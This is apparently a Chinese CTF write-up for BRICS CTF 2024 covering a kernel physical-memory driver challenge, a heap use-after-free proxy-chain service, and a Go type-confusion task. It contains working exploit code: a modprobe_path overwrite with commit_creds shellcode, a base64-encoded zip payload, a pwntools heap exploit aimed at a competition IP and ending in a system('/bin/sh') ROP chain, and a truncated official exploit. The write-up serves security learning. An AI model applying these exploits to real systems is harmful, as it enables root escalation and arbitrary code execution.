








# 2024-10-05-BRISC+CTF

‍

## hard-physler-kernel

### 非预期做法

‍

* 权限没设置好，全部都时 rwx

​​

把 /bin/busybox 文件覆盖，然后 exit

​​

* exploit

```c
#include "minilib.h"

extern void _start(){
    char *files[] = {
        "/flag",
        "/flag.txt",
        "/root/flag",
        "/root/flag.txt",
        0};

    for(int i=0;files[i];i++){
        int fd = open(files[i],0);
        if(fd>0){
            sendfile(1, fd, 0, 0x100);
        }
    }
    syscall64(60,0);
}

//UEsDBBQAAAAIAOd2IVr0kO2YrAMAACglAAAHABwAZXhwbG9pdFVUCQAD0uZ0Z9LmdGd1eAsAAQQAAAAABAAAAADtWktrE1EUPol9pEVtFEXBIqMEqUin6cNWi49oO+0VWkUlC1EJSTNtCnmUZAZabXVRFK9B6Ur7C4obXzt10RaLNrqqG+mym0pAwYoFixTjvTN3kpkp8YUIwv3InXPPOd93zmQmWUxyrkpdHU6HAww44QhQ747bp/k+Fr+3O08hsQNQTo6VUKFxS8AMn8Wud4LFgls3VFdq8oH1M6zETsmwZp3WT2BxwWe1Bt+mK2Erw+IZh89i8+WYdYFVl2W6LOMb1sN4HhOf4uyiEv6TfqeJrgx+HcblK2F7ek07T/rJfYRpGltnym9hPs1PBBpntr8b2e86ef9u5hTedvzNVOtvtOXg4ODg4ODg4ODg4OD4z/C5audXP8KLCK8g/AXhtwi/7sbPu3GmK93lcVWVjl2cyXNGP7gRHlnB6nLav4zSEpG8nKIP9k9oqeyjXC73yswWKBthdQlhfxbh7gWUVsnqzqK0f4nqT+AlWqImXyJGSoxZanjRrdLbVQAIS3Nki/XtPNne0LcLhW0WzUpLtM6stErNe19aWkXjKN3+Ym6SBhCezYqkBZZWRkdW4Eo1fQ/jT+mPBc/0/Msp+sCebSGkUWnVUdCja9PqY63I1KH86U5+0073394yDg4ODg4ODg4ODg4ODo7fRioCtT1QF+qP15FtJXjrGxqb9je3HDh47Hhbu9QBFcJhAQTyIge6hkGEYajrjQb79KOoDCpQl0wkFBbMb7UMwxZmHZfOgGPQ7dixvtw1Rh61q0Ffgx9zOe0/dGmj+7qzbUPZeUJgOfq8PUzyojkvF/IXyLpJ8u3m/OVCfpisByT/0Jx3TmiEzra2VqHGH1LjiirUN4qNore2WdXchisNTaK3aS8L//g66nMJn3L2eDlZm53r4Ayba2hn8a0sbsxZPGRxt7ZKAbw+S51qxjfmI4x5gz1F+LVF4g2sjofVEY2EPDgg9kBKjod7+6MyBAKhVCqQUoJJBVJDqZ5gNNrcBAE5HFSCxMTDkBiQ40SfGoopwRCxSlK3EWMXTyiy2BdXxYEk4SaVIVMopPZHw7X9YRAVmXxIxGRCKyzKkUBvMhiTQexJxGJyXIG/hB2g3wtjDKUwj6H7go3vsvmiTV+YA9F9j41fYvOPgf4Zyc925OdddCM5rHybC50sZvQvzL3oJmjj2/WnbPoI00eYftzGt7//c0y/5muwSzf7ivQ3WyeshZfp5019nab+25mtgMIsi+U82VxSS5H+BjYV0R9l+tBP9N8BUEsBAh4DFAAAAAgA53YhWvSQ7ZisAwAAKCUAAAcAGAAAAAAAAAAAAO2BAAAAAGV4cGxvaXRVVAUAA9LmdGd1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBNAAAA7QMAAAAA
// echo -n ""|	base64 -d > exp.zip && unzip exp.zip
```

‍

‍

‍

```url
https://github.com/AvavaAYA/ctf-writeup-collection/tree/main/BRICSCTF-2024/physler
```

```python
cd sbin
rm poweroff
cat << EOF > ./poweroff ; chmod +x ./poweroff
#!/bin/sh
/bin/sh
EOF
 
exit
```

‍

‍

### 预期解法

‍

题目给了源代码

​`physler.c`​

```c
#include "physler.h"

static noinline long ioctlHandler(struct file *file, unsigned int cmd, unsigned long arg)
{
    struct ioctl_map _map;
    struct ioctl_write _write;

    switch (cmd) {
        case IOCTL_MAP_PHYS_ADDR: {

            if (copy_from_user(&_map, (void*)arg, sizeof(_map))) {
                return -EFAULT;
            }

            if (mem)
                iounmap(mem);

            mem = ioremap(_map.phys_addr, _map.size);

            if (!mem) {
                return -EFAULT;
            }
            break;
        }
        case IOCTL_WRITE_PHYS_MEM: {
            if (!mem)
                return -EFAULT;

            if (copy_from_user(&_write, (void*)arg, sizeof(_write))) {
                return -EFAULT;
            }

            size = _write.size;

            if (size > sizeof(kernel_buffer))
                size = sizeof(kernel_buffer);

            if (copy_from_user(kernel_buffer, (char *)_write.in_data, size))
                return -EFAULT;

            memcpy_toio(mem, kernel_buffer, size);
            break;
        }
        default:
            return -EINVAL;
    }

    return 0;
}

static int __init init_dev(void){
    reg = misc_register(&physler_dev);
    if (reg < 0)
        printk("[-] Failed to register physler!");

    return 0;
};

static void __exit exit_dev(void){
    misc_deregister(&physler_dev);
}

module_init(init_dev);
module_exit(exit_dev);
```

​`physler.h`​

```c
#include <linux/string.h>
#include <linux/fs.h>
#include <linux/slab.h>
#include <linux/miscdevice.h>
#include <linux/random.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/fs.h>
#include <linux/ioctl.h>
#include <linux/mm.h>
#include <linux/uaccess.h>
#include <linux/io.h>
#include <linux/cdev.h>
#include <linux/device.h>


#define IOCTL_MAP_PHYS_ADDR 0x1001
#define IOCTL_READ_PHYS_MEM 0x2002
#define IOCTL_WRITE_PHYS_MEM 0x3003

#define BUF_SIZE 4096

int reg;

static unsigned long phys_addr = 0;
static unsigned long size = 0;
static void __iomem *mem = NULL;
static char kernel_buffer[BUF_SIZE];

static struct ioctl_map {
    unsigned long phys_addr;
    unsigned long size;
};

static struct ioctl_write {
    unsigned long size;
    unsigned char* in_data;
};


static noinline long ioctlHandler(struct file *file, unsigned int cmd, unsigned long arg);
static int __init init_dev(void);
static void __exit exit_dev(void);

static struct file_operations physler_fops = {.unlocked_ioctl = ioctlHandler};

struct miscdevice physler_dev = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = "physler",
    .fops = &physler_fops,
};

MODULE_LICENSE("WTF");
MODULE_AUTHOR("kaker@keker");
MODULE_DESCRIPTION("Same shit different day");
```

‍

### 关于ioremap

* 第一次接触这个，对这个不是太了解，下面是大模型 给出的 一下信息

**工作机制**

1. ​**​`ioremap`​**​ **的作用**:

    * 将设备的物理内存地址（通常是 I/O 寄存器或内存映射区域）映射到内核虚拟地址空间中，供内核访问。
    * 设备驱动程序需要通过这种方式访问硬件资源，而不是直接操作物理地址。
2. ​**​`iounmap`​**​ **的作用**:

    * 释放之前通过 `ioremap`​ 映射的内存区域。
    * 内核的虚拟地址空间是有限的，尤其在 32 位系统上，因此释放不需要的映射是一个关键操作。

‍

​`grok 2`​

在讨论 ioremap 和 "direct mapping of all physical memory (page_offset_base)" 之间的关系之前，我们需要理解这两个概念：

* ioremap：如前所述，是用来将设备的物理 I/O 内存映射到内核的虚拟地址空间。这种映射通常不是直接的，而是通过内核的地址转换机制（使用页表等）来实现的，目的是为了访问硬件设备的内存。
* direct mapping of all physical memory (page_offset_base)：这是指内核将物理内存直接映射到虚拟地址空间中的一种策略。在这种映射中，物理地址和虚拟地址之间的转换非常简单，通常只需要加上一个固定偏移量（page_offset_base），这在 Linux 内核中被称为线性映射或直接映射。具体来说，在 x86 体系结构上，内核的虚拟地址空间有一部分是用来直接映射物理内存的，这个映射通常从 PAGE_OFFSET 开始，任何在这一范围内的虚拟地址都对应一个物理地址，通过简单的加减 PAGE_OFFSET 就能得到对应的物理地址。

关系：

虽然 ioremap 和直接映射的概念在目的上是类似的（将物理地址转为内核可用的虚拟地址），但它们在实现和用途上有所不同：

* 不同点：

  * 映射类型：ioremap 用于将设备的 I/O 内存映射到内核虚拟地址空间。这种映射可能不直接对应到物理内存的线性映射区域，它可以是非缓存的或有特定缓存属性的。
  * 用途：ioremap 主要用于设备驱动程序，允许内核访问设备的内存空间，而直接映射（如 page_offset_base 所指）是内核对其自身内存使用的优化，使得内核可以快速访问大部分物理内存。
  * 范围和持久性：直接映射通常是全局的，涵盖了系统的大部分物理内存，并且映射是静态的或在系统启动时设置好的。相比之下，ioremap 的映射是动态的，根据需要创建和销毁。
* 相似点：

  * 目的：两者都用于将物理地址转换为内核可以访问的虚拟地址。
  * 地址空间使用：它们都使用内核的虚拟地址空间，以提供对硬件或内存的访问。

总结来说，ioremap 和直接映射都是为了同一个目的——让内核可以安全、有效地访问物理地址，但它们在具体实现和应用场景上是有差异的。ioremap 提供了一种更灵活、适用于特定设备的访问方式，而直接映射则是对内核内存管理的一种优化策略。

‍

* 通过上面的信息我大概可以理解了（以下仅是我个人观点）

‍

```c
// phys_addr 传入物理地址（不是虚拟内存） 
// size 4k 对齐 0x1000
size_t * mem = ioremap(_map.phys_addr, _map.size);
// ioremap 会返回物理内存映射出的虚拟内存 地址
```

​​

‍

* ​`pwndbg`​ 可以使用 `vprot`​ 查看虚拟内存，所展示的就是 虚拟内存

​​

‍

可以修改 `modprobe_path`​物理内存（同时虚拟内存的内容也会被修改，因为它只是物理内存的映射）

​​

​​

​​

* 确定 modprobe_path 的物理地址

```python
0xffff888000000000 # 物理内存映射的起始地址
0xffff888002dd5820 #  +0x2dd5820 就是 modprobe_path 的映射地址，

# 所以 modprobe_path 的物理内存 地址就是 0x2dd5820 
```

‍

* exploit

​​

执行copy后，再次查看

​​

‍

```c
#include "minilib.h"
#define stbase(value) ((value) - 0xffffffff81000000ULL)


size_t nokaslr_kernel_base  = 0xffffffff81000000;
char *procn = "/dev/physler";
int fd = 0;


static void shellcode(){
    asm volatile (
        "xor rdi, rdi;"
        "mov rcx, prepare_kernel_cred;"
        "call rcx;"
        "mov rcx, commit_creds;"
        "call rcx;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
    // restore_flags
    asm volatile (
        "push user_ss;"
        "push user_sp;"
        "push user_rflags;"
        "push user_cs;"
        "push shell_addr;"
        "swapgs;"
        "iretq;"
    );
}
static void end_shellcode(){ return; }
size_t sc_addr = &shellcode + 8;

struct ioctl_write {
  char * in_data;
  size_t size;
};

void add(struct ioctl_write buf){
    ioctl(fd,0x1001, &buf);
}
void edit(struct ioctl_write buf){
    ioctl(fd, 0x3003, &buf);
}
void doMain(){
    // size_t sc_size = &end_shellcode-&shellcode;
  
    save_status();

    fd = open(procn,2);
    lss("fd",fd);

    struct ioctl_write buf;

    buf.in_data = 0x2dd5820;
    buf.size = 0x1000;

    add(buf);
    char path[] = "/tmp/e1";
    buf.in_data = 8;
    buf.size = &path;
    edit(buf);
    modprobe_rce();

}
extern void _start(){
    size_t env[0];
    environ = &env[4];
    doMain();
    syscall64(60,0);
}


```

‍

## medium-chains

### 漏洞触发点

```python
add_proxy('1',0x123) # 添加一个 代理
```

​​

​​

‍

```python
add_chain(1,[0]) # 添加一个代理链
```

​​

‍

```python
delete_chain(0) # 删掉这个代理链,
# chains[0] 指针清空, proxies[0]也被free,但是么没有把 proxies[0] 清空
# 这就构成里一个UAF
```

​​

‍

```python
delete_proxy(0)
```

​​

​​

‍

‍

‍

* exploit 考验一点堆风水, 我瞎几把写的比较乱

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('89.169.156.185', 13995)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './chains'

elf  = ELF(binary);rop = ROP(binary)
libc = elf.libc
gdbscript = '''
#continue
#brva 0x01AD1
brva 0x1314
'''.format(**locals())


import socks
context.proxy = (socks.SOCKS5, '192.168.100.24', 10808)

io = start(binary)

def add(addr, port):
    ru('> ')
    sl('1')
    ru(': ')
    sl(addr)
    ru('Enter proxy port: ')
    sl(str(port))
def rm(idx):
    ru('> ')
    sl('2')
    ru(': ')
    sl(str(idx))
def chain(size,idl):
    ru('> ')
    sl('3')
    ru('chain size: ')
    sl(str(size))
    for i in range(size):
        ru('proxy id: ')
        sl(str(idl[i]))
def show(idx):
    ru('> ')
    sl('4')
    ru(': ')
    sl(str(idx))

def rm_chain(idx):
    ru('> ')
    sl('5')
    ru(': ')
    sl(str(idx))


add('1',0x123)
chain(1,[0])
rm_chain(0)
add('2',0x124)
chain(1,[0])
show(0)
ru(' proxy #0 is ')
heap_base = uu64(r(6)) - 0x2a0
lss('heap_base')
#show(0)
#rm(0)
#rm(0)
#show(0)

pay = b'A' * 0x10 + p64(0) + p64(0x451)
add('33',0x22) # 2
add(pay,0x23) # 3
add('55',0x24) # 4

chain(1,[2]) # 1
chain(1,[2]) # 2
chain(1,[2]) # 3

rm_chain(1)

chain(1,[3]) # 4
chain(1,[3]) # 5


rm(2)

add(p64(heap_base+0x460),0) # 5
add('pad1',0x1) # 6
add('pad2',0x1) # 7
add('pad3',0x1) # 8
add('pad4',0x1) # 9
add(p64(0x0)+p64(0x81),0x1) # 7

rm_chain(4)
add('pad4',0x1) # 10
add('pad5',0x1) # 11

rm(11)
pay  = 0x48 * b'\x00'
pay += p64(0x21) + p64(heap_base + 0x530)
add(pay,0x1) # 11
#chain(1,[4]) # 6
#chain(1,[4]) # 6
##chain(1,[4]) # 6
chain(1,[4])

show(4)
ru('is ')
libc_base = uu64(r(6)) - 2112288

lss('libc_base')

libc.address = libc_base

env = libc.sym['environ']

rm(11)
pay  = 0x48 * b'\x00'
pay += p64(0x21) + p64(env)
add(pay,0x1) # 11

show(4)
ru('is ')
stack = uu64(r(6)) - 8

lss('stack')


rm(11)
pay  = 0x48 * b'\x00'
pay += p64(0x21) + p64(heap_base + 0x440)
add(pay,0x1) # 11


rm(6)
rm(11)
rm(4)
#rm_chain(4)
key = heap_base >> 0xC
pay  = b'\x00' * 0x18
pay += p64(0x21) + p64((heap_base+0x20) ^ key) * 3
pay += p64(0x91) + p64((stack-400) ^ key)

add(pay,0x1) # 6
add('pad',0x1) # 6
#gdb.attach(io,gdbscript)
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))
poprdi = next(libc.search(asm('pop rdi;ret')))
ret = poprdi + 1
pay = p64(ret) * 2 + p64(poprdi) + p64(bin_sh) + p64(system)
ru('> ')
sl('1')
ru(': ')
sl(pay)

lss('heap_base')
lss('libc_base')
lss('stack')


itr()

```

‍

​​

‍

## gollum

 go 语言写的，给了源码+

​`tree`​

```bash
.
├── build.sh
├── cmd
│   └── main.go
├── database
│   └── database.go
├── Dockerfile
├── go.mod
├── models
│   ├── credential.go
│   └── user.go
├── services
│   └── auth.go
└── util
    └── hashes.go
```

‍

* 先简单的写一下交互菜单

```
```

‍

‍

### **Type Confusion 漏洞**

以下代码展示了一个类型混淆的简单场景：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// 定义两个不同的结构体
typedef struct {
    int id;
    char name[20];
} User;

typedef struct {
    int price;
    char description[20];
} Product;

void type_confusion_demo(void* data, int is_user) {
    if (is_user) {
        // 假设 data 是一个 User 类型
        User* user = (User*)data;
        printf("User ID: %d\n", user->id);
        printf("User Name: %s\n", user->name);
    } else {
        // 假设 data 是一个 Product 类型
        Product* product = (Product*)data;
        printf("Product Price: %d\n", product->price);
        printf("Product Description: %s\n", product->description);
    }
}

int main() {
    // 创建一个 User 对象
    User* user = (User*)malloc(sizeof(User));
    user->id = 42;
    strcpy(user->name, "Alice");

    // 将 User 对象错误地当作 Product 类型处理
    printf("Interpreting User as Product:\n");
    type_confusion_demo(user, 0);

    free(user);
    return 0;
}
```

---

**运行结果**

运行上述代码后，输出可能是类似以下内容：

```mathematica
Interpreting User as Product:
Product Price: 42
Product Description: Alice
```

**为什么会这样？**

1. **内存布局问题**：

    * 在 `User`​ 和 `Product`​ 的定义中，`id`​ 和 `price`​ 都是 `int`​ 类型，占据相同的内存位置。
    * 同样，`name`​ 和 `description`​ 的内存区域也重叠。
2. **错误的类型解释**：

    * 实际上传递的 `data`​ 是一个 `User`​ 类型的指针，但在函数中将其当作 `Product`​ 类型来解释，导致内存被错误地解析。
3. **潜在的危害**：

    * 如果数据结构的大小或布局不匹配，可能会访问到无效的内存区域，从而导致程序崩溃或未定义行为。
    * 在更复杂的程序中，攻击者可以利用此漏洞伪造数据或执行任意代码。

‍

‍

‍

* 官方wp

```python
#!/usr/bin/env python3

import sys

import pwn


def register(io: pwn.tube, username: bytes, password: bytes, protection: bytes) -> None:
    io.sendlineafter(b'> ', b'REGISTER')

    io.sendlineafter(b': ', username)
    io.sendlineafter(b': ', password)
    io.sendlineafter(b': ', protection)

    return


def login(io: pwn.tube, username: bytes, password: bytes) -> None:
    io.sendlineafter(b'> ', b'LOGIN')

    io.sendlineafter(b': ', username)
    io.sendlineafter(b': ', password)

    return


def info(io: pwn.tube) -> bytes:
    io.sendlineafter(b'> ', b'INFO')

    return io.recvline()[4:]


def update(io: pwn.tube, description: bytes) -> None:
    io.sendlineafter(b'> ', b'UPDATE')

    io.sendlineafter(b': ', description)

    return


def logout(io: pwn.tube) -> None:
